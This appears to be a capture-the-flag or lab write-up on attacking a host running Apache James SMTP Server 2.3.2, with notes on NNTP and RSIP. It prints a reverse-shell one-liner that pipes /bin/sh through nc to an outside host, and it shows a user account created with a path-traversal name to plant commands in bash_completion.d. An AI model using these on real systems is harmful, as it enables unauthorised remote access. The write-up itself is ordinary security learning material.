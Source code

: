 <br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

  * `nntp` stands for Network News Transfer Protocol.
  * From GeeksForGeeks:
    * It is designed specifically to transfer news/articles.
    * NNTP is a set of rules for clients/newsreaders to interact with servers to retrieve newsgroups.
  * Turns out the port 119 is used by nntp clients and nntp servers use 433.  
  * Apache James is written in java.  
    <blockquote>
    Apache James exposes an administration console allowing privileged users to configure and manage the server and tweak its functions. By default, the server is configured to listen for email transactions on network port 25 and administration transactions on port 4555
    </blockquote>  

  * That's the case in our machine.   

    <blockquote>
    Since Apache James listens for email transactions on port 25, a privileged port, it must run as a privileged user like root, meaning it has access to the operating system's sensitive resources. This level of access increases the potential impact of a security breach since a vulnerability in Apache James can affect the entire operating system.
    </blockquote>  

  * Seems like port 25 is a privileged port.

* Taken from "networksorcery":  
  <blockquote>
  An alternative to a NAT is an architecture that allows the hosts within the first (e.g., private) routing realm to directly use addresses and other routing parameters from the second (e.g., public) routing realm. Thus, RSIP has been defined as a method for address sharing that exhibits more transparency than NAT. In particular, RSIP requires that an RSIP gateway (a router or gateway between the two realms) assign at least one address from the second routing realm, and perhaps some other resources, to each RSIP host. An RSIP host is a host in the first routing realm that needs to establish end-to-end connectivity to a host, entity or device in the second routing realm. Thus, the second routing realm is not directly accessible from the RSIP host, but this system allows packets to maintain their integrity from the RSIP host to their destination. ALGs are not required in the RSIP gateway. RSIP requires that hosts be modified so that they place some number of layer three, layer four or other values from those assigned by the RSIP gateway in each packet bound for the second routing realm.
  </blockquote>   

* Also, check this <a href="http://www.networksorcery.com/enp/protocol/rsip.htm">link</a> for more on RSIP.  

* The SMTP version we have is **JAMES SMTP Server 2.3.2** which has a very, seemingly, popular exploit that does not work unless we have the default installation of james smtp server 2.3.2  

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f  

* Found these in the root command in the smtp service  
```console
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d //I created this one -SB
user: thomas
user: john
user: mindy
user: mailadmin
```  
